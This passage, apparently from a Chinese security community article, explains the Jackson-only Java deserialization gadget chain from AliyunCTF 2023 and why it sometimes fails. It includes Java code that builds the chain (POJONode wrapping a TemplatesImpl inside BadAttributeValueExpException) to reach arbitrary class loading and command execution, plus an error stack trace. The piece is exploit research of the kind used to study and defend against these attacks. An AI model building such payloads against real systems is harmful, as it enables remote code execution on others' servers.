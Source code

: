 

# 从 JSON1 链中学习处理 JACKSON 链的不稳定性 - 先知社区

从 JSON1 链中学习处理 JACKSON 链的不稳定性



## 简介

今天四月份的 AliyunCTF 2023 中公开了一条只依赖于 Jackson 这个 JSON 序列化库的原生反序列化利用链【1】。这条 JACKSON 链可以直接在无任何额外依赖的 SpringBoot 环境下使用，十分方便。但是，由于 Jackson 获取类属性顺序的不稳定性，导致有时 JACKSON 链在触发 `getOutputProperties` 方法之前就报错了。本文参考著名反序列化利用工具 ysoserial【2】中的 JSON1 链，在新添加一个 Spring AOP 依赖的基础上，对 JACKSON 链进行改进，使得 JACKSON 链在 SpringBoot 环境下可以稳定触发 `getOutputProperties` 方法。

## 关于 JACKSON 链

首先给出一段构造 JACKSON 链的（伪）代码，详细代码可以参考 AliyunCTF 2023 的 writeup【1】.

```bash
public static byte[] getJSON1(String cmd) throws Exception {
                // step 1
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
                // step 2
        POJONode node = new POJONode(makeTemplatesImpl(cmd));
                // step 3
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        return serialize(val);
    }
```

代码主要分三段，第一段是在 `com.fasterxml.jackson.databind.node.BaseJsonNode` 被类加载器加载前，使用 `javassist` 工具删除它的 `writeReplace` 方法。

第二段是构造一个 `TemplatesImpl` 类型的对象，然后用其构造一个 `POJONode` 类型的对象。

第三段是将这个 `POJONode` 类型的对象设置为 `BadAttributeValueExpException` 类型的对象的 `val` 字段的值，之后反序列化时触发 `POJONode` 类型的对象的 `toString` 方法。

JACKSON 链的原理是 `POJONode` 类型的对象的 `toString` 方法会触发用来构造 `POJONode` 类型的对象的 `TemplatesImpl` 类型的对象的所有 `getter` 方法，最终触发 `TemplatesImpl#getOutputProperties` ，导致任意类加载。

## JACKSON 链的不稳定性

有时在使用 JACKSON 链时，我们会遇到如下报错：

```bash
Caused by: java.lang.NullPointerException
    at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getStylesheetDOM(TemplatesImpl.java:450)
    at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
    at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
    at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
    at java.lang.reflect.Method.invoke(Method.java:483)
    at com.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:689)
    at com.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:774)
    ... 74 more
```
